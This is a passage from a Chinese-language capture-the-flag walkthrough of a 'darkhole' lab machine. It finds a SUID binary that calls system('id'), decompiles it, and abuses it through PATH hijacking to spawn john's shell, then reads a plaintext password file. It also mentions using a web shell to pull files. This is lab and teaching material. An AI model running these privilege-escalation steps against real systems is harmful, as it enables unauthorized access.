         可以尝试密码碰撞`ssh`，但是密码错误
        
4. 来到`/home/john/` ，下有四个文件
    
    ```python
    $ ls
    file.py
    password
    toto
    user.txt
    ```
    
    但是除了`toto`有读和执行权限，别的都没有权限，前面`suid`也搜索出了`toto` ，尝试利用
    
5. 利用`toto`
    - 因为不知道有什么作用，我们直接执行
        
        ```python
        $ ./toto
        uid=1001(john) gid=33(www-data) groups=33(www-data)
        ```
        
    - 我们通过蚁🗡下载该文件下来，使用`IDA`反编译看看写了啥
        
        ```python
        int __fastcall main(int argc, const char **argv, const char **envp)
        {
          setuid(0x3E9u);
          setgid(0x3E9u);
          return system("id");
        }
        ```
        
        设置`UID`然后设置`GID`最后输出`ID`命令
        
    - 劫持环境变量
        
        因为他会执行`id` ，所以我们修改环境变量让他执行id的时候执行`/bin/bash`
        
        ```python
        $ echo "/bin/bash" > /tmp/id
        $ chmod 777 /tmp/id
        $ export PATH=/tmp:$PATH 
        ```
        
        `$ export PATH=/tmp:PATH`  设置`/tmp`为环境变量的开头，那样就可以一开始就去`/tmp`寻找 `id` 也就是`/bin/bash`
        
        执行`toto` ，获得`john`的shell
        
        ```python
        $ ./toto
        john@darkhole:/home/john$
        ```
        
6. 获得`john`的用户后查看之前没权限看的文件
    - `password` 是`john`的密码，我们用它去`ssh`登录`john`获得更好的用户交互`shell`
        
        ```python
        john@darkhole:~$ cat password 
        root123
        ```
        